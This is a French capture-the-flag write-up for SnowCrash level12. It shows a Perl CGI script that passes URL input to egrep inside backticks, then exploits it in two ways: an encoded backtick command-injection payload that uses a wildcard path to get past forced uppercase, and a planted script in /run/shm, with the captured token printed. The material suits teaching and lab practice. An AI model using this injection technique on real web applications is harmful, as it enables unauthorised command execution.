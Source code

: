 ```hell
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Il s'agit d'un script Perl qui utilise le module CGI pour recevoir des paramètres d'un formulaire web et affiche un point ou deux points en fonction du résultat d'un appel de fonction.

Le script définit deux sous-routines :

    "t" prend deux paramètres ($_[0] et $_[1]) et effectue un traitement de texte sur $_[0] (en le convertissant en majuscules et en supprimant les espaces blancs finaux). Il recherche ensuite des lignes dans le fichier /tmp/xd qui commencent par $_[0] modifié et ont le motif $_[1] quelque part dans le reste de la ligne. Si une telle ligne est trouvée, la fonction renvoie 1 ; sinon, elle renvoie 0.

    "n" prend un paramètre ($_[0]) et affiche soit un point (.) soit deux points (..) selon que $_[0] est égal à 1 ou non.

La partie principale du script appelle "n" avec le résultat de l'appel de "t" avec les valeurs des paramètres "x" et "y" obtenues à partir du formulaire web.

Notez que ce script est vulnérable aux attaques d'injection de commandes, car il passe l'entrée utilisateur non sécurisée directement à la commande "egrep".

On essaie de voir s'il y a une connexion possible:
```shell
level12@SnowCrash:~$ curl -I 127.0.0.1:4646
HTTP/1.1 200 OK
Date: Tue, 21 Mar 2023 03:39:36 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html
```
OK pour utiliser la faille et injecter une commande dans `egrep "^$xx" /tmp/xd 2>&1`, on va utiliser un x= dans l'url :

x=getflag, mais on sait que avant il x sera mis en majuscule. Il faut donc qu'on puisse appeler GETFLAG.

pour cela on va utiliser utiliser le wildcard:

En effet quand il y a un unique fichier on peut l'appeler par /*. Donc:
```shell
level12@SnowCrash:~$ ln -sf /bin/getflag /tmp/GETFLAG
level12@SnowCrash:~$ /*/GETFLAG
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
Ok maintenant si je lance avec x=`/*/GETFLAG` il faut que je mette en code url:
[url encoder](https://www.urlencoder.org/)
ce qui donne : %2F%2A%2FGETFLAG
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG`'
..level12@SnowCrash:
```
Mais je n'ai aucune sortie
une solution pas tres jolie mais j'ai pas trouvé mieux c'est de sortir sur l'erreur d'appache:
donc x=`/*/GETFLAG>&2 qu'on encode : %2F%2A%2FGETFLAG%3E%262
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
..level12@SnowCrash:~tail /var/log/apache2/error.log`'
[...]
[Tue Mar 21 05:24:13 2023] [error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
# deuxième solution

le repertoire run/shm est monté en tant que système de fichiers tmpfs:
```shell
level12@SnowCrash:~$ mount | grep 'run/shm'
none on /run/shm type tmpfs (rw,nosuid,nodev)
```
et on a les droit d'écriture
on va donc faire un un petit script que l'on nomera GETFLAG
```shell
level12@SnowCrash: vi /run/shm/GETFLAG
```
```shell
#!/bin/sh

getflag > /tmp/token
```
L'avantage c'est que c'est dans le script que l'on maitrise la sortie de getflag.

Maintenant la commande curl ne passe pas pas les erreur de apache et on a pas besoins de coder 'url'
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`/*/*/GETFLAG`'

level12@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```